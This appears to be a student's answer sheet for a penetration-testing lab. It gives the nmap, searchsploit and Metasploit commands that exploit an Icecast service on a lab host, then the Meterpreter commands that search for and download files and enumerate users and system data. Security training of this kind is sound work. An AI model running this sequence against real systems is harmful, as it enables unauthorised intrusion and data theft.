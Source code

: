 ### Penetration Test Engagement Report

- [Report_10152021](Resources/Report.docx)
 

We've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > **ANS:** `nmap -sS -sV -O 192.168.0.20`  
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > **ANS:** `searchsploit icecast`  
  

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > **ANS:** `msfconsole` 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > **ANS:** `search icecast`  
  
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > **ANS:** `use 0`  
       
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > **ANS:** `set RHOST 192.168.0.20`  

 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > **ANS:** `exploit`  
  
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > **ANS:** `search -f *secretfile*.txt`  
  
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > **ANS:** `search -f *recipe*.txt`  
  
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > **ANS:** `download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’`  

 
8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
   
      > **ANS:** `run post/multi/recon/local_exploit_suggester`    


#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > **ANS:** `run post/windows/gather/enum_logged_on_users`    

     
B. Open a Meterpreter shell and gather system information for the target.
 
  > **ANS:** 
  > `shell`  
  > `systeminfo`

 
C. Run the command that displays the target's computer system information:

   > **ANS:** `sysinfo`    

---

